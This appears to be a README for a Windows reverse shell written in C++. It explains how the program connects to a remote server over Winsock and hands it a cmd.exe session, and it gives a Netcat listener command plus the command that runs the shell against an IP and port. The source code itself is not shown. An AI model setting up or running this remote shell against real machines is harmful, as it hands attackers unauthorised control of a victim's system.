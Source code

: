 
# Reverse Shell in C++

This project implements a simple reverse shell in C++. It establishes a connection to a remote server, redirects standard input/output/error to a socket, and allows interaction with a shell on the target system. The code is designed for Windows environments and uses Winsock for network communication.

## Getting Started

### Prerequisites
- A Windows environment.
- Visual Studio or a compatible C++ compiler.

### Building the Code
1. Clone the repository to your local machine.
2. Open the project in your C++ IDE.
3. Compile and build the project.

### Running the Code
1. Start a listener on the remote server using tools like `nc` (Netcat):
   ```bash
   nc -lvnp <port>
   ```
2. Run the compiled executable with the remote server's IP and port as arguments:
   ```bash
   ./reverse_shell <server_ip> <port>
   ```

## How It Works
The code performs the following steps:
1. Initializes Winsock.
2. Creates a TCP/IP socket.
3. Connects to the remote server with the given IP and port.
4. Redirects standard input/output/error to the socket.
5. Launches `cmd.exe` with redirection, allowing interaction via the reverse shell.
6. Cleans up resources after the shell completes.

## License
[Choose a license](https://choosealicense.com/) that suits your project's needs.
